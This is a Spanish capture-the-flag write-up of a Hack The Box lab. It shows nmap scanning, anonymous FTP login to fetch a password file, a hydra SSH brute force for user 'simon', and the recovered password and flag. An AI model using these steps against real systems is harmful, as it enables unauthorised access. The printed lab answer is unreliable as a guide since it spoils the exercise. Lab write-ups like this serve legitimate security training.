 El segundo servidor es interno (dentro del dominio inlanefreight.htb) y gestiona y almacena correos electrónicos y archivos, además de servir como respaldo de algunos procesos de la empresa. Según conversaciones internas, su uso es relativamente poco frecuente y, en la mayoría de los casos, hasta ahora solo se ha utilizado con fines de prueba.

**2.  Assess the target server and find the flag.txt file. Submit the contents of this file as your answer.**

Con un escaneo básico de nmap observo:
```
sudo nmap -sSCV --open --min-rate 10000 -Pn -n 10.129.201.127 -oA target -p- -vvv
```

```
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
110/tcp   open  pop3
995/tcp   open  pop3s
2121/tcp  open  ccproxy-ftp
30021/tcp open  unknown
```

```
2121/tcp  open  ftp      syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (InlaneFTP) [10.129.201.127]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
30021/tcp open  ftp      syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Internal FTP) [10.129.201.127]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
```

Ejecutando:
```
ftp 10.129.201.127 2121
ftp 10.129.201.127 30021
```
Solo en el segundo puedo autenticarme como "anonymous:"
Me descargo un archivo llamado "mynotes.txt" de una carpeta llamada "simon", de lo que parece un listado de contraseñas.

```
234987123948729384293
+23358093845098
ThatsMyBigDog
Rock!ng#May
Puuuuuh7823328
8Ns8j1b!23hs4921smHzwn
237oHs71ohls18H127!!9skaP
238u1xjn1923nZGSb261Bs81
```

Pues, tengo un usuario "simon" con un conjunto de credenciales que probaré en cada uno de estos servicios:
```
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
110/tcp   open  pop3
995/tcp   open  pop3s
2121/tcp  open  ccproxy-ftp
30021/tcp open  unknown
```

Pues en el primer servicio que pruebo me devuelve un mensaje conforme se ha crackeado:
```
hydra -l "simon" -P mynotes.txt ssh://10.129.190.119 -t 5
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-21 11:56:42
[DATA] max 5 tasks per 1 server, overall 5 tasks, 8 login tries (l:1/p:8), ~2 tries per task
[DATA] attacking ssh://10.129.190.119:22/
[22][ssh] host: 10.129.190.119   login: simon   password: 8Ns8j1b!23hs4921smHzwn
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-21 11:56:48
```

Siendo las credenciales de ssh "simon:8Ns8j1b!23hs4921smHzwn"

Ingreso por SSH:
```
ssh simon@10.129.190.119
```

Y encuentro la flag:
```
HTB{1qay2wsx3EDC4rfv_M3D1UM}
```
